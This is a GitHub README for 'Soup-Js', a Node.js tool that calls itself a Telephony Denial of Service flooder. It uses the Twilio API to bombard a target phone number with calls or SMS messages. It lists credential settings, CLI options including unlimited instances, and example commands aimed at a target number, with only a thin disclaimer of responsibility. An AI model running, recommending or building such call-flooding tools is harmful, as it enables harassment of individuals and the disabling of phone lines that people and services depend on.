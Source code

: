 [![Open Source Love](https://badges.frapsoft.com/os/v1/open-source.png?v=103)](https://github.com/Jfaler/soup/blob/master/LICENSE.txt)

# TDoS Call Flooder : Soup-Js
* Open source call flooder using Twilio API, inspired by [Soup](https://github.com/Jfaler/soup).
* Inspiration from [Liu Shengxian]https://github.com/liushengxian/soup-js
* Inspiration from Project Mayhem

Note: I am not responsible for malicious activity that can be brought upon by this service. This project was forked due only by my own interest.

## Description 

This type of attack is reffered to as a TDoS or Telephony Denial of Service attack.   

## Version
`
2.0.0.0
`
## Prerequisites

* Read Legality https://www.twilio.com/legal/aup
* Sign up https://www.twilio.com/try-twilio
* Install Nodejs.

## Installation

1. clone the repo
1. `yarn install`

## Usage
Ensure you have a `.env` set with the following:
```
TWILIO_ACCOUNT_SID='<FILL IN SID>' 
TWILIO_AUTH_TOKEN='<FILL IN AUTH TOKEN>'
MSG_SID='<MESSAGE SERVICE SID>'
TWILIO_TWIML='<TWIML VOICE MESSAGE>'

MSG_SID is used for text
TWILIO_TWIML is used for calls
```

```
❯ yarn start --help
yarn run v1.22.10
$ node flood --help
Usage: flood [options]

Options:
  -t, --target <string>     target to call
  -a, --action <string>     call or message (default: "call")
  -n, --numbers <items>     numbers to use
  -i, --instances <string>  number of instances (default: "unlimited")
  -d, --delay <string>      delay between calls/messages in seconds (default: "10")
  -m, --message <string>    message to send for sms (default: "testing")
  -h, --help                display help for command
```


## Examples
This will send an SMS text to the target number twice with the message "I like trains"
```
yarn start --target 0001112222 --numbers 9998887777 --instances 2 --action sms --message "I like trains"
```
This will call the target number twice with the text the TWILIO_TWML url points to
```
yarn start --target 0001112222 --numbers 9998887777 --instances 2 --action call
```
## Authors
* **Ethan Wessel** - *Custom Version*
* **Misanya Liu** - *NodeJs Version* - [Misanya](https://github.com/liushengxian)
* **Justin Faler** - *Initial work* - [Jfaler](https://github.com/Jfaler)

## License

This project is licensed under the MIT License - see the LICENSE.md file for details.
